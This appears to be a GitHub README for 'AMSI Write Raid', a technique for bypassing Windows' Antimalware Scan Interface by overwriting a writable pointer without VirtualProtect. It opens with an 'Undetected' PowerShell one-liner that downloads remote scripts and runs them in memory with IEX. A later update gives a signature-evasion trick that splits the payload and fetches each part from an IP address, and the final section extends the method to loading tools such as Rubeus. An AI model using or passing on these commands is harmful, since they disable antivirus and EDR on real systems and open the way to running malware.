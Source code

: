 
## One liner AV Bypass

✅ Undetected => More info in AvBypassTricks Folder


```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1"); MagicBypass;
```

__AMSI WRITE RAID VULNERABILITY__

This is a vulnerability discovery for bypassing Antimalware Scan Interface (AMSI) and I will call it AMSI Write Raid, I mean why not?

Usually all the memory addresses pointing to the functions and data within the DLLs that the program depends on are inside the import address table (IAT) and they are marked as read only, so whenever you want to tamper with them, you have to use VirtualProtect api to mark the page as writable first.

And so EDR's will monitor the VirtualProtect API to see if the API call is doing something suspicious or not. 

But strangely, I discovered a writable entry that you can overwrite without the need of `VirtualProtect` API, that can bypass the whole AMSI process.

And because I am not using VirtualProtect API to change the memory protection, as it is already marked as Read/Write, it will likely bypass AV's and EDR's.

Note: Most AV's supports and uses the AMSI functionality developed by Microsoft, so bypassing AMSI => Bypasses not only defender but all of them.

Tested on win11 Build 22631 (Latest at the time of writing) and windows Preview.

**Update 14/05/2024**

I wanted to mention that this was not the only writable entry that you can overwrite to bypass AMSI with the same concept. I disovered that most of the highlighed entries (vulnerable_entries.png) in the call stack image below are as well vulnerable to the same vulnerability discussed in the paper / blog (writable_entries_part_1.png). The entries are not write protected, so overwriting any of the call pointers would bypass Amsi as well.

![Vulnerable Entries](vulnerable_entries.png)

![Writable Entries](writable_entries_part_1.png)

**Update 28/10/2024**

This POC is still working, but it is signatured by Defender after being published for some time.

A simple trick To bypass Signature => is to split the script to different files and call them 1 by 1  :)

Something like this:

```
IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part1.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part2.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part3.ps1");
```

### CLR.DLL Vulnerability ###
The same vulnerability exists in clr.dll (PW5) and coreclr.dll (PW7) which allows you to load c# assemblies into Powershell at runtime without being blocked by AMSI.

After using the POC.ps1, if you try to load rubeus for example, you will get blocked by AMSI, even though the error is a bit confusing but this is because of AMSI.

![CLR Error](clr_error.png)

You have to do the same analysis that I did, and your starting point is always amsi!AmsiScanBuffer.

![CLR Entries](clr_entries.png)

![CLR Writable Entry](clr_writable_entry.png)

The call __guard_dispatch_icall_fptr__ is added as part of a security feature that was created to combat memory corruption vulnerabilities. By placing tight restrictions on where an application can execute code from, it makes it much harder for exploits to execute arbitrary code through vulnerabilities such as buffer overflows. that security feature is called __Control Flow Guard__.

https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard

_CFG Call_ will take the value inside rax which is the location of _AmsiScanBuffer_ pointer and validate it using a set of bitmaps if that address is allowed to run or not and then call it (if allowed).

while __Control Flow Guard (CFG)__ is outside the scope of this blog, it will not concern us, as we are not changing the location of the pointer that is being called, so we will not be triggering CFG.

The Full Bypass:

![CLR Bypass POC](clr_poc.png)

I will not publish the POC for clr.dll, I will keep it as an exercise :)